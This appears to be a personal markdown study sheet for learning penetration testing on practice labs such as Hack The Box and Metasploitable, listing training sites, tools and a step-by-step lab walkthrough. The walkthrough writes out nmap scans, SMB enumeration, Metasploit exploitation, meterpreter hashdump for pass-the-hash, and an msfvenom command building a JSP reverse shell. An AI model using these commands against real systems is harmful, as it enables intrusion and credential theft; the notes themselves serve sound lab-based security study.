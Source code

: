 # training labs
- https://Hackthis.co.uk
- https://www.hackthebox.eu/
- https://www.hackerone.com/start-hacking
- https://www.virtualhackinglabs.com/labs/penetration-testing-lab/
- https://www.hackthissite.org/
- https://cryptopals.com/
- http://opensecuritytraining.info/HTID.html

# images/apps
- http://www.dvwa.co.uk/
- https://Vulnhub.com
  - was walkthroughs and write ups

# home lab
- https://information.rapid7.com/download-metasploitable-2017.html
  - setup a machine with a hypervisor
  - 1 vm for kali
  - 1 vm with a metasploitable

# games
- https://ctftime.org/

# Phases
1. Recon
2. Scanning 
3. Gaining access
4. Maintaining access
5. Clearing tracks

# hack the box
- https://www.hackthebox.eu/home/rules
- https://www.hackthebox.eu/home/htb/access

# top tools
- Metasploit
- the Nessus Vulnerability Scanner
- Nmap
- Burp Suite    # web
- OWASP ZAP     # web
- SQLmap
- Kali Linux
- Jawfish

## Hack examples
- https://www.youtube.com/watch?v=JZN3JhoAdWo
1. `Recon`
   1. get $IP of target from hackthebox.eu
2. `Scanning` 
   1. nmap $ip
      1. 8080/tcp                # browse via web
   2. nmap -A -T4 -p- $ip         # ALL scan, OS/ver/script/traceroute detection.
      1.  5min to an hour
   3. nmap -sU -T4 -p1-1000 $ip   # 1000 UDP ports
   4. $info = **smb weakness**    # 139/tcp ntbios-ssnn
      1. google search $info exploit 
         1. exploit-db.com
         2. rapid7.com
3. `Gaining access`
   1. smbclient -L \\\\$ip\\      # found smb service
      1. try to crawl folders
   2. msfconsole                  # Rapid7 Metasploit
      1. search $smb_version      # $keyword
      2. search $exploit-keyword-or-id
      3. use $exploit/aux
      4. options
      5. show
      6. set $var $value
      7. exploit or run
   3. nessus??
4. `Maintaining access`
   1. meterpreter               # reverse shell
      1. getuid #windows command
      2. sysinfo
      3. help
      4. hashdump # get the SAM, pass the hash around
      5. find user.txt, or root.txt and submit to hackthebox.eu
   2. msfvenom -p java/jsp_shell_reverse_tcp LHOST=$myip LPORT=$myport -f war > rat.war
      1. msfconsole
         1. use exploit/multi/handler
5. `Clearing tracks`
6. Capture the flag (CTF)
   1. tag web with contents of user.txt
